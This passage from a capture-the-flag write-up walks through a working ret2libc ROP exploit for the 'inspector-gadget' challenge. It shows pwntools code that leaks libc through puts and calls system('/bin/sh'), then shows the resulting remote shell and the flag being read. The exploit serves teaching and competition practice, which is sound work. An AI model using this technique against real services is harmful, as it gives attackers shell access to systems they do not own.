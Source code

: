 which means that this is a "standard" ROP exploit. I've covered this exploit in other posts, so I will not go too much into detail here, and will only provide the exploit I ended up using (without manually having to find gadgers). More detailed explanations of challenges exactly like this one can be found in my writeups for [Remote tamagOtchi Pet](https://loevland.github.io/posts/uithack23/#pwn---remote-tamagotchi-pet) and [gaga2](https://loevland.github.io/posts/angstrom23/#gaga) from UiTHack23 and Ångstrom 2023.

The offset to the `rip` address on the stack were 24, and we had to align the stack with a `ret` instruction for our second payload.

The final exploit ended up being
```python
io = start()
offset = 24
libc = ELF("libc.so.6", checksec=False)
io.recvuntil(b"pwn me")

rop = ROP(exe)
rop.raw(b"\x90" * offset)
rop.puts(exe.got.puts)
rop.main()

io.sendline(rop.chain())
io.recvline()

puts_leak = u64(io.recvline().rstrip().ljust(8, b"\x00"))
log.success(f"Puts @ {hex(puts_leak)}")
libc.address = puts_leak - libc.sym.puts
log.success(f"Libc @ {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"\x90" * offset)
rop.raw(0x401016) # ret
rop.system(next(libc.search(b"/bin/sh\x00")))

io.recvuntil(b"pwn me")
io.sendline(rop.chain())

io.interactive()
```
{: .nolineno }

which when ran gives a shell on the server
```bash
$ python3 exploit.py
[+] Opening connection to tamuctf.com on port 443: Done
[*] Loaded 14 cached gadgets for './inspector-gadget'
[+] Puts @ 0x7fa81f695a40
[+] Libc @ 0x7fa81f624000
[*] Loaded 200 cached gadgets for 'libc.so.6'
[*] Switching to interactive mode

$ ls
docker_entrypoint.sh
flag.txt
inspector-gadget
$ cat flag.txt
gigem{ret2libc_r0p_g04t3d}
```
{: .nolineno }

